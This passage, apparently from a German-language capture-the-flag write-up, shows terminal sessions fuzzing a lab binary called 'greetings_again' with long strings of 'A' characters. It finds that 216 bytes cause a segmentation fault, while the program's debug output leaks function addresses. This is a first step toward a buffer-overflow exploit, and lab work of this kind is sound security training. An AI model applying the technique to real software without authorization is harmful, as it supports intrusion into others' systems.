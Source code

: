 ```bash
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Gruessen beendet.

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*220)" | ./greetings_again
Debug-Ausgaben:
scanf: 0x7f2f75d8e6d0
printf: 0x7f2f75d8d330
greetings: 0x55ffc38e81e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python3 -c "print('A'*220)" |
zsh: segmentation fault  ./greetings_again

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*215)" | ./greetings_again                                 139 ⨯
Debug-Ausgaben:
scanf: 0x7ff56f9ad6d0
printf: 0x7ff56f9ac330
greetings: 0x559cb105b1e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Gruessen beendet.

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*216)" | ./greetings_again
Debug-Ausgaben:
scanf: 0x7f1e195616d0
printf: 0x7f1e19560330
greetings: 0x5627a12a61e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python3 -c "print('A'*216)" |
zsh: segmentation fault  ./greetings_again
```

Nun ist bekannt, dass 216 Bytes einen Buffer Overflow auslösen. Diese Information sollte notiert werden.

